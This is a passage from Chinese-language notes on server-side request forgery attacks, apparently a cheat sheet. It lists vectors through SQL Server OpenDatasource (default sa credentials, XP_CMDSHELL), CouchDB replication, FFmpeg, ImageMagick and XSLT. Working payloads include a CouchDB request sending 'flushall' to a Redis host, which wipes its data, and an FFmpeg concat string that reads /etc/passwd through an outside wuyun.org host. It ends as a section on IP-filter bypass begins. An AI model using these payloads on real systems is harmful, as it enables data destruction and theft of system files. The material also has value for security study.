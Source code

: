     ```sql
    SELECT * FROM OpenDatasource('SQLOLEDB', 
    'Data Source=ServerName;User ID=sa;Password=sa' ) .Northwind.dbo.Categories
    ```

    [https://msdn.microsoft.com/zh-cn/library/ms190312.aspx](https://msdn.microsoft.com/zh-cn/library/ms190312.aspx)
    协议限制： 穷举用户口令 XP_CMDSHELL
+ CouchDB
    HTTP API /_replicate

    ```sql
    POST http://couchdb-server:5984/_replicate 
    Content-Type: application/json 
    Accept: application/json 
    { 
        "source" : "recipes", 
        "target" : "dict://redis.wuyun.org:6379/flushall”, 
    }
    ```

    [https://docs.couchdb.org/en/stable/api/server/common.html](https://docs.couchdb.org/en/stable/api/server/common.html)

##### Web mail 收取其他邮箱邮件

+ QQ邮箱
+ 163/126邮箱
+ 新浪邮箱

##### 文件处理、编码处理、属性信息处理

网盘 & 邮箱系统
PDF、DOCX 在线编辑
文件自动预览

+ FFmpeg
    concat:http://wyssrf.wuyun.org/header.y4m|file:///etc/passwd
+ ImageMagick (mvg语法 URL函数向服务器发起HTTP请求)
    fill 'url(http://wyssrf.wuyun.org)'
+ XML parsers ( XSLT ) XSLT包含了超过100个内置函数
    document(): 用来访问另一个xml文档内的信息
    include(): 用来将两个样式表合并
    import(): 用来将一个样式表覆盖另一个

## 利用

### 利用条件

+ 需成功发送针对目标服务漏洞的`payload`

### 遇到限制的绕过方式

#### IP限制绕过（xip.io、十进制IP、八进制IP）
